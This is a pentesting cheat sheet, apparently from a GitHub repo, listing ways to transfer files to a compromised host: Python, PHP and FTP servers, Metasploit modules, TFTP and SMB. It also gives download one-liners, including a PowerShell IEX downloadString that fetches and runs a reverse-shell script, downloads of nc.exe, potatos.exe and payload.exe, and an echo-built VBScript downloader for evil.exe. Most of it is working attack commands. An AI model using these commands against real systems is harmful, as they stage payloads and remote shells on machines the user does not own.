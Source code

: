 ## Transfer files (HTTP)

python2 -m SimpleHTTPServer 8000

python3 -m http.server 8000

## Transfer files (HTTP)

php -S 127.0.0.1:8080

## Transfer files (FTP)

python3 -m pyftpdlib -p 21

## Transfer file (FTP/msf)

msf> use auxiliary/server/ftp

## Transfer file (TFTP/msf)

msf> use auxilitary/server/tftp

## Windows ( Download TFTP )

tftp -i xxx.xxx.xxx.xxx GET filename.exe\
tftp -i xxx.xxx.xxx.xxx PUT filename.exe

## Windows ( Enable TFTP)

pkgmgr /iu:"TFTP"

## SMB service (Impacket)

python smbserver.py SHARE /root/shells

# Mount windows fileshare                                                                                                                                                                                                                                                               
                                                                                                                                                                                                                                                                                        New-PSDrive -Name "FolderName" -PSProvider "Filesystem" -Root "\\xxx..xxx.xxx\sharename"                                                                                                                                                                                                

## Copy files (SMB service)

copy \\\xxx.xxx.xxx.xxx\\SHARE .

## Windows ( Download HTTP )

powershell "IEX(New-Object Net.WebClient).downloadString('http://xxx.xxx.xxx:8000/rev.ps1')"

(new-object System.Net.WebClient).Downloadfile("http://xxx.xx.xx.xx:8000/1.exe", "1.exe")

powershell -command "& { iwr http://xx.xx.xx.xx:8000/potatos.exe -OutFile potatos.exe }"

## Linux ( Download HTTP )

wget -O filename http://xxx.xxx.xxx/filename

curl -o filename http://xxx.xxx.xxx.xxx/filename

## FTP transfer

You can start FTP on linux box with this command

```sh
python3 -m pyftpdlib -p 21 
```

Then you can transfer with these commands

```sh
echo open 10.11.0.254 21> ftp.txt
echo USER anonymous>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

## wget 

```sh
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

#After you've created wget.vbs
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

## Download powershell

IWR -uri http://xx.xx.xx.xx/payload.exe -outfile payload.exe

